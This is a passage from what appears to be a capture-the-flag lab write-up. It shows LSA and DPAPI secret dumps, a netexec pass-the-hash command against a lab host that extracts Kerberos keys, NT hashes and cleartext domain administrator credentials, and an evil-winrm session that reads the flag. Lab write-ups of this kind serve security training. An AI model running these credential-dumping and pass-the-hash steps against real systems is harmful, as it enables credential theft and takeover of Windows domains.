0060   67 80 19 D7 6F A6 A2 92 D9 EF 5D 36 35 22 4C B9    g...o.....]65"L.
0070   F7 1D 40 57 4C 77 60 81 D4 FC 9F 47 4F B5 34 E7    ..@WLw`....GO.4.
0080   BE E1 98 32 CB 3C 39 A7 72 E7 9D 0B A8 A3 0F 47    ...2.<9.r......G
0090   6B 21 29 E9 41 6E 75 ED BB 9D DE 2D F6 62 DB 7E    k!).Anu....-.b.~
00A0   2E A8 DF B7 2F F2 B1 C8 D4 81 27 E2 62 9B DD E7    ..../.....'.b...
00B0   DB E0 FB 43 94 02 DC 2A 22 94 55 3D B4 5D 5A 54    ...C...*".U=.]ZT
00C0   86 6E 43 84 AD B3 BE 55 D8 48 B1 30 16 4B 85 30    .nC....U.H.0.K.0
00D0   B8 09 64 CC 9B BC 82 9D D8 5C FF BF 25 88 9F BE    ..d.........%...
00E0   0D 08 79 C4 0B 37 72 72 95 F1 B4 1A 6E 85 E5 B9    ..y..7rr....n...
00F0   97 94 B2 0C 34 D2 6D 2D 0D 61 AB 4C 92 98 21 CA    ....4.m-.a.L..!.
0100   9C B0 75 99 2F 9A 90 A7 6A 8D F4 AF 79 B6 DA 0D    ..u./...j...y...

DefaultPassword
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   1E D1 C9 BB B2 EA 23 2C D5 8F 03 A4 3D 87 1F 9F    ......#,....=...

DPAPI_SYSTEM
0000   01 00 00 00 6D B6 AB AF 1D E3 4C D5 06 7D 93 46    ....m.....L..}.F
0010   DB BE 2D 02 C2 42 83 ED 0D 30 DD D1 90 24 EA 56    ..-..B...0...$.V
0020   F5 DA DD 8F 72 03 10 FA 62 C0 AC 8F                ....r...b...

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   6C 99 D1 3F 36 F5 A8 25 BF 24 A5 89 C5 7E 24 34    l..?6..%.$...~$4
0020   9E 83 31 BE AC 86 C0 52 EE 29 41 47 ED 68 D1 B7    ..1....R.)AG.h..
0030   B4 CD 9A C9 B3 11 6D 51 5C F4 45 AD 50 00 BA 9C    ......mQ..E.P...
0040   30 C8 AF C3 0B 8F 6F 16 D0 7D DD DF CF E0 7D A4    0.....o..}....}.
0050   53 64 D0 78 DE 8D AF 57 50 53 34 12 83 BC DD 74    Sd.x...WPS4....t

_SC_MSSQL$SQLEXPRESS
0000   14 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   73 00 74 00 61 00 72 00 73 00 68 00 69 00 70 00    s.t.a.r.s.h.i.p.
0020   39 00 39 00 00 00 00 00 00 00 00 00 00 00 00 00    9.9.............

_SC_SQLTELEMETRY$SQLEXPRESS
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   16 19 17 AB 37 77 21 99 16 2D B3 F2 CF 1C 97 50    ....7w!..-.....P


------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:batch=TaskScheduler:Task:{1DD798F8-6D4A-4DD9-9265-FDC1C9CA3206}
Login: KLENDATHU\Administrator


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 26.749951362609863

```

Now from the DPAPI sercrets I can obtain the domain admin?

```bash
└─$ netexec smb 10.13.38.36 -u 'Administrator' -H 24f8ce26bc2f4d3965ce806719bbbc2d --local-auth --lsa --dpapi
SMB         10.13.38.36     445    SRV1             [*] Windows Server 2022 Build 20348 x64 (name:SRV1) (domain:SRV1) (signing:True) (SMBv1:None)
SMB         10.13.38.36     445    SRV1             [+] SRV1\Administrator:24f8ce26bc2f4d3965ce806719bbbc2d (Pwn3d!)
SMB         10.13.38.36     445    SRV1             [+] Dumping LSA secrets
SMB         10.13.38.36     445    SRV1             KLENDATHU\SRV1$:aes256-cts-hmac-sha1-96:87d8a9df7aa38ce65e9cd6ad5ab424c370d26c306beceacfe68f42869b90671d
SMB         10.13.38.36     445    SRV1             KLENDATHU\SRV1$:aes128-cts-hmac-sha1-96:b3305bf8bd73e169c763088e5d5b45ca
SMB         10.13.38.36     445    SRV1             KLENDATHU\SRV1$:des-cbc-md5:5df862e53e29d59e
SMB         10.13.38.36     445    SRV1             KLENDATHU\SRV1$:plain_password_hex:84b200ec06fb9db0923d1dea3334684a3fce802eb8671352aaaf2be23b06795cc846f6afa5f5c0b06d1d0c72e5a3dd04794451a17edc9f3794b9a67936fde5ac57cf930fc3f064dfd70a782f2ff5a046678019d76fa6a292d9ef5d3635224cb9f71d40574c776081d4fc9f474fb534e7bee19832cb3c39a772e79d0ba8a30f476b2129e9416e75edbb9dde2df662db7e2ea8dfb72ff2b1c8d48127e2629bdde7dbe0fb439402dc2a2294553db45d5a54866e4384adb3be55d848b130164b8530b80964cc9bbc829dd85cffbf25889fbe0d0879c40b37727295f1b41a6e85e5b99794b20c34d26d2d0d61ab4c929821ca
SMB         10.13.38.36     445    SRV1             KLENDATHU\SRV1$:aad3b435b51404eeaad3b435b51404ee:da383d53cb2128cc2e4648a406b0bb46:::
SMB         10.13.38.36     445    SRV1             dpapi_machinekey:0x6db6abaf1de34cd5067d9346dbbe2d02c24283ed
dpapi_userkey:0x0d30ddd19024ea56f5dadd8f720310fa62c0ac8f
SMB         10.13.38.36     445    SRV1             KLENDATHU\RASCZAK:starship99
SMB         10.13.38.36     445    SRV1             [+] Dumped 7 LSA secrets to /home/user/.nxc/logs/lsa/10.13.38.36_None_2026-03-16_125029.secrets and /home/user/.nxc/logs/lsa/10.13.38.36_None_2026-03-16_125029.cached
SMB         10.13.38.36     445    SRV1             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.13.38.36     445    SRV1             [+] Got 12 decrypted masterkeys. Looting secrets...
SMB         10.13.38.36     445    SRV1             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{1DD798F8-6D4A-4DD9-9265-FDC1C9CA3206} - KLENDATHU\Administrator:@@MoreDeadBugs@@

```

# POST Exploitation

Now I can see the first flag?



And here goes the flag:

```bash
vil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
KLEN{46ccf3ab111d073b12d2b227ec19bc0b}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```